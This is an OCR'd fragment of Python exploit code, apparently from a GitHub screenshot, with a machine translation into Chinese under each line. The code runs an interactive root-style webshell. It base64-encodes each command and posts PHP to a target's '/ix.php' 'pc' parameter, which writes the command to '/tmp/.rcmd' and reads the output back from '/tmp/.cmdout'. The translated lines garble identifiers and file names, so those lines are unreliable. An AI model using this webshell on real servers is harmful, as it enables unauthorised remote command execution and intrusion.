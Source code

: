 print(b.text)  
打印（B.文本）

print("\\nStarting webshell, Use quit to exit.\\n")  
print（“\\n正在启动webshell，使用quit退出。\\ n”）

readline.parse\_and\_bind("set editing-mode emacs")  
readline.parse\_and\_bind（“设置emacs编辑模式”）

while True:  
为真时：

cmd = input(f"root@\[{self.target}\]# ")  
cmd = input（f“root@\[{self.target}\]#“）

if cmd.strip() in \["exit", "quit"\]:  
if cmd.strip（）in \[“exit”，“quit”\]：

print("Exiting")  
print（“Exiting”）

return True  
返回True

cmd\_enc = base64\_encode(cmd.encode()).decode()  
cmd\_enc = base64\_encode（cmd.encode（））.decode（）

mycmd = (  
mysql =（

f'$command = base64\_decode("{cmd\_enc}");file\_put\_contents("/tmp/.rcmd", '  
f'$command = base64\_decode（“{cmd\_enc}”）;file\_put\_contents（“/tmp/.rcmd”，'

'"$command\\\\n");sleep(1);echo file\_get\_contents("/tmp/.cmdout");'  
“"$command\\\\n”）;sleep（1）;echo file\_get\_contents（“/tmp/. xmlout”）;“

'file\_put\_contents("/tmp/.cmdout","");'  
“file\_put\_contents（“/tmp/. js”，””）;“

)

b = requests.post(  
B = requests.post（

self.target + "/ix.php", data={"pc": mycmd}, verify=False, timeout=1  
self.target“/ix.php”，data={“pc”：mycmd}，verify=False，timeout=1

)

print(b.text)  
打印（B.文本）

def run(self):  
默认运行（自身）：

if not self.Checker():  
if not self. self（）：

print("Target isn't Vulnerable")  
print（“目标不脆弱”）
